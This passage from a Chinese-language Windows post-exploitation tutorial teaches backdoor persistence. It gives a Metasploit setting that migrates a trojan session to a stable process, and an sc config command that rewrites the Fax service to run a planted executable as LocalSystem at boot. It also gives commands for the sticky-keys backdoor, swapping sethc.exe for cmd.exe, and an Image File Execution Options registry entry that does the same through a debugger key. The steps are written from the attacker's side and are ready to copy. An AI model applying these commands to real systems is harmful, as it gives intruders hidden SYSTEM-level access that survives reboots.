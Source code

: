 ![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418222518138-1321932112.png)

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418222538328-1326157018.png)

木马文件执行上线，获得的权限是系统服务权限。一段时间之后，会显示服务没有响应，从而关闭我们的恶意进程。所以 msf 在监听时，要加上如下参数:

```
set autorunscript migrate -f
#获得会话之后，直接将会话转移到一个稳定进程，保持上线。


```

经过测试，重启之后，传真服务不会自动启动执行，所以我们可以利用如下命令：

```
sc config Fax binPath= "C:\\Windows\\System32\\123123.exe" start= "auto" obj= "LocalSystem"
#这里有一点需要注意，在填写参数时，参数等号后面一定要加”空格”，注意这个细节！


```

Windows 启动期间，传真服务自动启用，并且执行的权限为 System 权限。

### 0x09 shift 后门

#### 9.1 辅助功能劫持

这个是比较老的方式了，这里简单讲一下，在 windows 中有一些辅助功能，能在用户未登录系统之前可以通过组合键来启动它，类似的辅助功能有：

```
C:\\Windows\\System32\\sethc.exe     粘滞键，启动快捷键：按五次shift键
C:\\Windows\\System32\\utilman.exe   设置中心，启动快捷键：Windows+U键


```

```
cd c:\\Windows\\System32
move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe


```

#### 9.2 映像劫持

在低版本的 windows 中，我们可以直接把 setch.exe 替换成我们的后门程序，但是在高版本的 windows 版本中替换的文件受到了系统的保护，所以这里我们要使用另外一个知识点：映像劫持。

windows 系统上每个服务的信息都存储在注册表中， ImagePath 注册表项通常包含驱动程序映像文件的路径。使用任意可执行文件劫持此密钥将使有效负载在服务启动期间运行，而这种劫持就称为映像劫持

具体操作方法如下：

在注册表下添加一个项 sethc.exe ，然后在 sethc.exe 这个项中添加 debugger 键，键值为我们恶意程序的路径：

```
HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Option 

REG ADD "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe" /v Debugger /t REG\_SZ /d "C:\\windows\\system32\\cmd.exe"


```
